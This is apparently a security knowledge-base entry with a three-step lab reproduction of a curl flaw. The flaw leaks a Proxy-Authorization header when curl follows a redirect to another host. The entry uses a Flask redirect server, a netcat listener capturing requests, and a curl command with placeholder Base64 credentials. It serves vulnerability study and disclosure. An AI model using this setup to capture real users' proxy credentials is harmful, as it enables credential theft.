

---
tags:
  - curl
  - proxy-leak
  - header-leakage
  - http-redirect
  - credentials-disclosure
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/netcat]]'
  - '[[tools/Flask]]'
tactics:
  - '[[Collection]]'
verified: false
platforms:
  - macOS
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Up-Redirect-Server-with-Flask]]'
  - '[[procedures/Capture-Requests-with-Netcat-Listener]]'
  - '[[procedures/Trigger-Proxy-Header-Leakage-with-curl]]'
step_count: 3
techniques:
  - '[[Unsecured Credentials]]'
  - '[[Exfiltration Over Alternative Protocol]]'
updated_at: '2025-12-14T17:28:36.560Z'
description: >-
  Demonstrates a vulnerability in curl where the Proxy-Authorization header is
  forwarded to unintended hosts during HTTP redirects, leading to proxy
  credential leakage.
skill_level: intermediate
impact_level: high
id: 599e6186-23e0-40df-929c-c279cc886659
validated: true
mitre_tactics:
  - '[[Collection]]'
mitre_techniques:
  - '[[Unsecured Credentials]]'
  - '[[Exfiltration Over Alternative Protocol]]'
---
# curl Proxy-Authorization Header Leakage via HTTP Redirect

Multi-stage attack chain demonstrating how curl fails to strip the Proxy-Authorization header when following HTTP redirects to a different host, potentially leaking proxy credentials to unintended servers. This vulnerability was reported in curl versions prior to fixes, allowing interception of sensitive authentication information, especially over unencrypted HTTP.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Flask]]
- [[tools/netcat]]
- [[tools/curl]]

### Target Environment

- macOS or Linux platform
- Ports 8000 and 8081 available
- Python environment for Flask
- Network access between Server1 and Server2 (local or simulated)

### Initial Access Requirements

- Local administrative access to set up servers
- No remote credentials needed; focuses on client-side curl behavior
- Simulated environment with two hosts (Server1 for redirect, Server2 for capture)

## Detailed Attack Procedures

### Step 1: Set Up Redirect Server
procedure: [[procedures/Set-Up-Redirect-Server-with-Flask]]

**Objective**: Configure a simple HTTP server on Server1 to redirect incoming requests to Server2, simulating a malicious or untrusted redirect.

**Instructions**: Use [[commands/flask-redirect-setup]] to start the Flask app:

```bash
python app.py
```

This sets up a listener on port 8000 that redirects '/' to 'http://server2:8081/'.

**Expected Output**: Flask server running, confirming redirect route.

**Success Indicators**:
- Server1 listening on port 8000
- GET / returns 302 redirect to Server2

### Step 2: Capture Requests with Netcat Listener
procedure: [[procedures/Capture-Requests-with-Netcat-Listener]]

**Objective**: Establish a listener on Server2 to intercept and log incoming requests, capturing any forwarded headers from the redirect.

**Instructions**: Execute [[commands/nc-listen-port]] to start the listener:

```bash
nc -l 8081
```

Keep this running in a terminal on Server2.

**Expected Output**: Netcat awaits connections on port 8081.

**Success Indicators**:
- Listener active on port 8081
- No errors in binding to port

### Step 3: Trigger Proxy Header Leakage with curl
procedure: [[procedures/Trigger-Proxy-Header-Leakage-with-curl]]

**Objective**: Send a curl request with Proxy-Authorization header to Server1, following the redirect to Server2, and verify the header leakage in the captured request.

**Instructions**: Run [[commands/curl-with-proxy-auth-redirect]] from the client machine:

```bash
curl -H "Proxy-Authorization: Basic xxx==" http://server1:8000 -L
```

Replace 'xxx==' with Base64-encoded credentials (e.g., 'dXNlcjpwYXNz' for user:pass). Observe the netcat output on Server2 for the leaked header.

**Expected Output**: curl follows redirect; netcat shows incoming request with Proxy-Authorization header intact.

**Success Indicators**:
- Redirect followed successfully
- Proxy-Authorization header appears in netcat capture
- Credentials visible in unencrypted traffic

## Attack Chain Summary

### Key Achievements

1. Simulated a redirect scenario exposing curl's header forwarding flaw
2. Captured and verified proxy credentials leakage to an unintended host
3. Highlighted risks of using -L flag with sensitive proxy headers over HTTP

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unsecured Credentials]] Unsecured Credentials
- [[Exfiltration Over Alternative Protocol]] Exfiltration Over Alternative Protocol

### MITRE ATT&CK Tactics

- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
